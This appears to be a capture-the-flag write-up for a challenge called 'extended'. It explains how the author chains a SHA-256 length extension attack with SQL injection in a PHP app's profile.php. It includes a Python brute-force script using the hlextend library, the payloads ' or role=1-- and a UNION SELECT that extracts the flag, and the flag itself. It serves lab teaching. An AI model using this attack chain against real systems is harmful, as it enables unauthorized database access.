



# extended
by Halogen
> Seems like an extensive authentication system
## Solution
When we first open the website, we see a Jaga Authentication (predictable as above). 

With authentication, one usually thinks of SQL injection, and indeed we do see it is SQL injectable in the code base, as shown in the PHP (**BAD** langauage) snippet below. This can be found in `profile.php`
```php
$user = $db->prepare("SELECT * FROM j4g4_us3rs WHERE uid = '$uid'");
```

So now, what is `uid`? Following the code upstream, we see that it is a randomly generated hex string given on registering. And that 0 ensures we are not admin :(
```php
$uid = bin2hex(random_bytes(32));
$user = $db->prepare("INSERT INTO j4g4_us3rs (uid, username, password, role) VALUES (?, ?, ?, 0)");
$user->execute([$uid, $username, md5($password)]);
```

But look, uid is given as a url param when going to `profile.php`, so we can just inject our code there? Well no, that gives us a 404 error

We need to dig deeper!

In `profile.php` we see this snippet of code
```php
$uri = explode('|', substr($_SERVER["REQUEST_URI"], strpos($_SERVER["REQUEST_URI"], "?") + 1));
$paramstr = urldecode($uri[0]);
$params = parse_url('?' . $paramstr);
parse_str($params['query'], $params);
$sig = $uri[1];

if ($sig !== hash("sha256", $SECRET . $paramstr)) {
	http_response_code(404);
	include('404.php');
	die();
}
```
We see that the `uid` parameter has a signature, such that when `SECRET . paramstr` is hashed using `sha-256`, we get `sig` again. `sig` is passed alongside the `uid` with a delimiter `|`. So the url we need should have the format

`http://localhost:3273/profile.php?uid=<$uid>|<$sig>`

Now we see that we cannot just replace uid with the SQL injection as there is a check with the hidden string `SECRET`. However, we could just extend (woah question name) the uid by appending the SQL injection to it, keeping some parts of the original string and its hash. Would this even work? YES.

## Length Extension Attack
A length extension attack can be done on `sha-256`, the hashing algorithm used to check against `sig`. It is basically crypto magic, and if you want to find out the details you can go [here](https://en.wikipedia.org/wiki/Length_extension_attack).
Here is how it works. 
> **The Attack**
> Using $M$ and $HASH(SECRET . M)$ and the length of $SECRET$. \
> We can use get $HASH(SECRET.M.PADDING.E)$. 
> 
> $M$ is the original message, here it is the `uid` \
> $SECRET$ is the secret string, which also appears here \
> $PADDING$ is just some specific characters to perform the attack. \
> $E$ is our message to append, which will be our SQL injection.

Using a [library](https://github.com/stephenbradshaw/hlextend) we found, we can perform the length extension attack and get our SQL injection signed. As for the lenght of $SECRET$, we just brute forced, since it is only from 16 to 32, and found that it works when the length is 28.
<u>Bruteforce Script</u>
```python
import hlextend, requests 

for i in range(16, 33): 
	sha = hlextend.new('sha256')
	print(i, requests.get("http://<site>/profile.php?" +
		sha.extend( "' or role=1--",
		"uid=b526a1e66e5cd6c998510ed8e36bb91ba247c11d2c39f191d25f52126d06e73b", 
		i,
		"953e3e0eb6e871a8c0f5441f11aca4723e3237d2ce5904d3f03915fbc050e99d" 
	) + '|' + sha.hexdigest()).text)
```

Afterwards we inserted our SQL injection (finally) and get our flag. \
SQL Injection: `' UNION SELECT flag, flag, flag, flag, flag FROM j4g4_us3rs WHERE role=1--`

Flag: `STF22{h4sh_l3ngth_1nj3ct10n_1s_4w3s0m3}`
